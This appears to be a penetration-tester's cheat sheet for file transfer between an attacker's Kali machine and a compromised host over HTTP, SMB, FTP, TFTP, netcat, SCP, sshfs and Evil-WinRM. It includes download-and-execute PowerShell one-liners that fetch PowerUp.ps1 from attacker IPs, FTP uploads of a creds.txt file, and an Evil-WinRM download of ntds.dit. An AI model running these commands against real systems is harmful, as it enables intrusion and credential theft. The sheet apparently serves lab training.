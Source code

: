 # File Transfer

### HTTP

{% code overflow="wrap" %}
```bash
# HTTP Server

# Python module
python2 -m SimpleHTTPServer 80 
python3 -m http.server 80

# pip install updog
# https://github.com/sc0tfree/updog
# This has an upload function
updog 80

# HTTP client

wget http://<ip address>/<file>
curl http://<ip address>/<file>  --output <file>

# Certutil
certutil -urlcache -split -f http://<ip address>/<file>

# Powershell
PS>Invoke-WebRequest -URI http://<ip address>/<file> -OutFile C:\Users\Cortin\<file>
PS>(New-Object Net.WebClient).DownloadString('http://<10.10.14.8/PowerUp.ps1')
CMD>powershell -c iex(New-Object Net.WebClient).DownloadString('http://<10.10.14.8/PowerUp.ps1')

PS>Import-Module BitsTransfer; Start-BitsTransfer -Source http://192.168.119.128/target.txt -Destination .
```
{% endcode %}

### SMB

{% code overflow="wrap" %}
```bash
# -- SMB v2 server -- 
# Simplified version

# Kali
sudo impacket-smbserver smb $(pwd) -smb2support -user iptracej -password iptracej

# Target
iex (new-Object Net.WebClient).DownloadString('http://10.10.14.4/privesc/SMB2.ps1'); SMB2 -IPAddress 10.10.14.4


# Manual version

# Kali
sudo impacket-smbserver smb $(pwd) -smb2support -user user  -password password

# Target
$pass = convertto-securestring 'user' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name kali -PSProvider FileSystem -Credential $cred -Root \\<Kali IP>\smb

# -- SMB v1 server -- 

# Kali
sudo impacket-smbserver smb .

# Target
\\<Kali IP>\smb
```
{% endcode %}

### FTP

{% code overflow="wrap" %}
```bash
# python ftp module
# sudo apt-get install python3-pyftpdlib	
sudo python3 -m pyftpdlib -p 21 -w

# Linux target
ftp

# Windows target
# Binary file
$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous")
$client.UploadFile("ftp://192.168.119.128/creds.txt", "C:\inetpub\wwwroot\creds.txt")

# ASCII
# Should be 5 or later
$psversiontable 

Compress-Archive -Path C:\inetpub\wwwroot\creds.txt -DestinationPath C:\inetpub\wwwroot\creds.txt.zip
$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("anonymous","anonymous")
$client.UploadFile("ftp://192.168.119.128/creds.txt.zip", "C:\inetpub\wwwroot\creds.txt.zip")
```
{% endcode %}

### TFTP

{% code overflow="wrap" %}
```bash
# Very old UDP based File transfer protocol. By default, it is installed on Windows machines up to Windows XP and 2003.
# https://www.linux.com/topic/networking/trivial-transfers-tftp-part-3-usage/

# Kail
# apt-get install tftp
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/<file> /tftp/

# Windows XP and 2003
tftp 10.10.10.10

tftp> status
tftp> verbose
tftp> binary
tftp> get HERE_I_AM
```
{% endcode %}

### Netcat

<pre class="language-bash"><code class="lang-bash"><strong># Reciver 
</strong>nc -l -p 1235 > nineveh.png

# Sender
nc -w 3 10.10.14.3 1235 &#x3C; nineveh.png
</code></pre>

### SCP

```bash
scp /path/to/source/file.ext username@x.x.x.x
scp -r /path/to/source/dir username@x.x.x.x

# Kali
sudo systemctl start ssh
sudo mkdir /mnt/dropplet
# Target
scp -r /mnt/opt/* iptracej@<Kali IP>:/mnt/dropplet
```

### sshfs

mount the file system via ssh

{% code overflow="wrap" %}
```bash
# Target
sudo systemctl start ssh
sudo systemctl status ssh

# Kali
sudo apt install sshfs
# create a mount point
sudo mkdir /mnt/droplet
# Ensure you are not in /mnt/droplet 
cd ~
# connect to remote system and mount the location
sudo sshfs -o allow_other,default_permissions iptracej@<target IP>:/var/www/html /mnt/droplet 
```
{% endcode %}

Evil-winrm

```bash
Evil-WinRM* PS C:\temp> download <file>
Evil-WinRM* PS C:\temp> download C:\temp\ntds.dit /home/iptracej/htb/Monteverde/download/ntds.dit

Evil-WinRM* PS C:\temp> upload <file>
Evil-WinRM* PS C:\temp> upload nc.exe
```
